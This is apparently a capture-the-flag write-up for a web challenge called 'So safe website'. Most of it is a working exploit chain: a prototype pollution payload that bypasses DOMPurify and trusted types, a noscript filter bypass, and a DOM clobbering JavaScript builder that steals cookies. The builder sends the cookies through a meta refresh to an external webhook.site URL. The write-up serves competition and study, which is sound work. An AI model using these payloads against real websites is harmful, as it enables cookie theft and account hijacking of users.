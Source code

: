 # So safe website
- Number of solves: 1

1. Overwrite Object object's getOwnPropertyNames with "nice feature" to bypass dompurify + trusted types.
`{"name":{"__proto__":{"__proto__":{"constructor":{"getOwnPropertyNames":"B"}}}}}`
2. Bypass custom filter with `noscript` tag. example:
`<noscript><img src="</noscript><img src=1 onerror=alert()">`
3. Steal cookies with `debug.js` and set parent's name to cookies and do redirect with meta tag
4. Send `window.name` to your webhook.
```js
var ppPayload = `{"name":{"__proto__":{"__proto__":{"constructor":{"getOwnPropertyNames":"B"}}}}}`;
var customFilterBypass = `
<noscript>
        <img/id="
             </noscript><img><iframe/srcdoc='HTMLINJ'></iframe><meta/http-equiv='refresh'/content='1;url=https://webhook.site/6-b79f993da3a' />
        ">
</noscript>`.replace(/\n/g,"").replace(/ /g,"").replace(/\t/g,"");
var domclobbering = `
<iframe srcdoc="NEXT" name="debugOptions"></iframe><link href="/ff" rel="stylesheet"><link href="/qqq" rel="stylesheet"><link href="/ffds" rel="stylesheet"><link href="/df" re>
`.replace(/"/g,"&quot;");
domclobbering = domclobbering.replace("NEXT",`
<iframe srcdoc="NEXT" name="0"></iframe>
`).replace(/"/g,"&amp;quot;")

domclobbering = domclobbering.replace("NEXT",`
<br id="0" clear="parent"><font id="1" face="name"><object id="2" code="document"></object><input id="3" accept="cookie">
`.replace(/"/g,"&amp;amp;quot;"));

customFilterBypass = customFilterBypass.replace("HTMLINJ",domclobbering).replace(/\n/g,"").replace(/ /g,"/");

console.log(`http://sosafewebsite.peykar.io:7070/?name=${encodeURIComponent(customFilterBypass)}&wow=${encodeURIComponent(ppPayload)}`);
```



